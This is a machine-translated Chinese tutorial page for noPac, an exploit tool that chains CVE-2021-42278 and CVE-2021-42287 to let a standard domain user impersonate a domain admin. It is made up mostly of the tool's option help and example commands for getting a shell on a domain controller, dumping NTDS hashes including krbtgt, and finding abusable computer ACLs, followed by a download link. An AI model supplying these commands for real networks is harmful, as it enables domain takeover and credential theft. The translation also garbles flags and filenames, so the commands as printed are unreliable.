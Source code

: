 # noPac:利用 CVE-2021-42278 和 CVE-2021-42287 来冒充来自标准域用户的 DA

> 原文：<https://kalilinuxtutorials.com/nopac/>

[![](img//e0b524e51cf954114e2af8e0e04a08d8.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhiGfmXn_SL2ffsMcG4t2MrspTShMVfErJIHTLhZQwxnuE4h_qu69mG-Lr8tOmFFAlJGAiQc1A6srV1VAIyg9jKbXgpdWjTWfbd_Fz6527WmR_K1dekrjDm9jUNyQsqOuejgAUEOaOqTEu3eL67Vie7z72nFQP7iqv4C4k_CmCFrAKsahAqA06gfzBh/s728/noPac_4%20(1).png)

**noPac** ，利用 CVE-2021-42278 和 CVE-2021-42287 冒充标准域用户的 DA。

## 使用

**山姆管理员 CVE-2021-42278 + CVE-2021-42287 链
位置参数:
【域/】用户名[:密码]
用于向 DC 认证的账户。
可选参数:
-h，–帮助显示此帮助消息并退出
–模拟模拟
将被模拟(通过 S4U2Self)以查询 ST 的目标用户名。请记住，只有当此脚本中提供的身份被允许委派给指定的 SPN
-Domain-NetBIOS NetBIOS name
Domain NetBIOS name 时，此操作才有效。如果 DC 有多个域，则需要此项。
-target-name NEWNAME 目标计算机名，如果没有指定，将随机生成。
-new-pass 密码添加新的计算机密码，如果没有指定，将随机生成。
-旧密码目标计算机密码，如果您知道您用-target-name 输入的目标的密码，请使用。
-old-hash lm hash:n hash
目标计算机哈希，如果您知道使用-target-name 输入的目标的哈希，请使用。
-debug 打开调试输出
-ts 为每个日志输出添加时间戳
-shell 通过 smbexec 丢弃一个 shell
-no-add 强制更改目标计算机的密码。
-创建子账户当前账户有创建子账户的权限。
-Dump Dump Hashs via secrets Dump
-Use-ldap 使用 LDAP 代替 LDAPS
认证:
-hashes lm hash:n hash
NTLM 哈希，格式为 lm hash:n hash
-no-pass 不要询问密码(对-k 有用)
-k 使用 Kerberos 认证。根据帐户参数从 ccache 文件(KRB5CCNAME)中获取凭据。如果找不到有效的凭证，它将使用命令行中指定的凭证
-aesKey 十六进制密钥用于 Kerberos 身份验证的 AES 密钥(128 或 256 位)
-DC-主机主机名要使用的域控制器的主机名。如果忽略，将使用 account 参数中指定的域部分(FQDN)
-DC-ip IP 要使用的域控制器的 IP。如果无法转换 FQDN，则非常有用。将使用帐户参数中指定的模式
执行选项:
-port[目标端口]
连接到 SMB 服务器的目标端口
-mode {SERVER，SHARE}要使用的模式(默认共享，服务器需要 root！)
-share SHARE 将从其中抓取输出的共享(默认 ADMIN$)
-shell-type {cmd，powershell}
为半交互式 shell 选择一个命令处理器
-codec codec 从目标的输出中设置所使用的编码(CODEC)(默认为“GBK”)。
-service-name service _ name
用于触发有效负载
转储选项的服务名称:
-just-dc-user USERNAME
仅提取 NTDS。指定用户的 DIT 数据。仅适用于 DRSUAPI 方法。暗示也-仅-直流开关
-仅-直流提取 NTDS。DIT 数据(NTLM 哈希和 Kerberos 密钥)
-just-dc-ntlm 只提取 NTDS。DIT 数据(仅 NTLM 哈希)
-pwd-last-set 显示每个 NTDS 的 pwdLastSet 属性。DIT 帐户。不适用于-输出文件数据
-用户状态显示用户是否被禁用
-历史转储密码历史，以及 LSA 机密 old val
-resume file resume file
恢复 NTDS 的恢复文件名。DIT 会话转储(仅适用于 DRSUAPI 方法)。此文件还将用于持续更新会话的状态
-use-vss 使用 vss 方法代替默认 DRSUAPI
-exec-method[{ smbexec，wmiexec，mmcexec}]
在目标位置使用远程 exec 方法(仅当使用-use-vss 时)。默认值:smbexec**

注意:如果未指定-host-name，该工具将自动获取域控制主机名，请选择由-dc-ip 指定的主机名。如果未指定–impersonate，该工具将随机选择一个 doamin 管理员进行攻击。默认情况下使用 ldaps，如果出现 ssl 错误，请尝试添加-使用-ldap。

## GetST

**python nop AC . py cgdomain . com/sanfen:' 1 qaz @ wsx '-DC-IP 10 . 211 . 55 . 203**

## 自动获取外壳

**python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012-shell-模拟管理员**

## 转储哈希

**python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012–模拟管理员-转储
python no PAC . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203-DC-host lab 2012–模拟管理员-转储-just-DC-user cgdomain/krbtgt**

## 扫描仪

**python scanner . py cgdomain.com/sanfeng:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 203**

## MAQ = 0

### 方法 1

找到当前用户可以修改的计算机。

**AdFind.exe-sc getacls-sddl filter；；”[WRT 道具]”；；电脑；域\用户-静音**

### 方法 2

找到 CreateChild 帐户，并使用该帐户进行剥削。

**AdFind.exe-sc getacls-sddl filter；；"[CR 子代]"；；电脑；-重新静音**

Exp:添加`**-create-child**`

**python no PAC . py cgdomain.com/venus:'1qaz@WSX'-DC-IP 10 . 211 . 55 . 200-DC-host DC 2008–模拟管理员-创建-子级**

[**Download**](https://github.com/Ridter/noPac)